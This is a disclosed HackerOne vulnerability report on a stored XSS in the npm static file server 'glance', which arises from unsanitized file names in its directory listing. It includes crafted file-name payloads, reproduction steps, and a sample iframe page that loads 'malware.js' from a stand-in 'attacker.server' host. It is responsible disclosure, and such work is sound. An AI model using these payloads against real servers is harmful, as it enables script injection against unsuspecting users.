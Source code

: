 # [glance] Stored XSS via file name allows to run arbitrary JavaScript when directory listing is displayed in browser

## Report Details
- **Report ID**: 310133
- **URL**: https://hackerone.com/reports/310133
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-01-29T13:29:06.051Z
- **Disclosed**: 2018-04-15T18:32:20.408Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is a Stored XSS vulnerability in ```glance``` module. File name, which contains malicious HTML (eg. embedded ```iframe``` element or ```javascript:``` pseudoprotocol handler in ```<a>``` element) allows to execute JavaScript code against any user who opens directory listing contains such crafted file name. 

## Module

**glance**

a quick disposable http server for static files

https://www.npmjs.com/package/glance

Stats
33 downloads in the last day
34 downloads in the last week
269 downloads in the last month

~3000 estimated downloads per year

## Description

```glance``` serves files from the server where was installed. Because there is no file names sanitization, following names can be used:

- example file name 1: iframe element serving HTML file with malicious JavaScript fired when iframe loads its content:

```
"><iframe="malicious_frame.html">
```

```malicious_iframe.html``` example:

```HTML
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>

    <script type="text/javascript" src="http://attacker.server/malware.js"></script>
</body>

</html>
```

- example file name 2: inline ```javascript:``` pseudo protocol event handler:

```
javascript:alert('you are pwned!')
```

When user clicks on this file, instead of seeing its content, malicious JavaScript is executed



## Steps To Reproduce:

- install ```glance```:

```
$ npm install glance
```

- in directory which will be served via ```glance```, put file with following name:


```
javascript:alert('you are pwned!')
```

- run ```glance``` in selected direcotry:

```
me:~/playground/hackerone/Node$ ./node_modules/glance/bin/glance.js --verbose --dir ./
```

You will see list of files. Now, click file with ```javascript:alert('you are pwned!')``` name.
JavaScript is executed and popup is fired:

{F258419}


## Supporting Material/References:

- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability can be used by attacker to serve malicious JavaScript against any user.

## Attachments
- glancexss.png
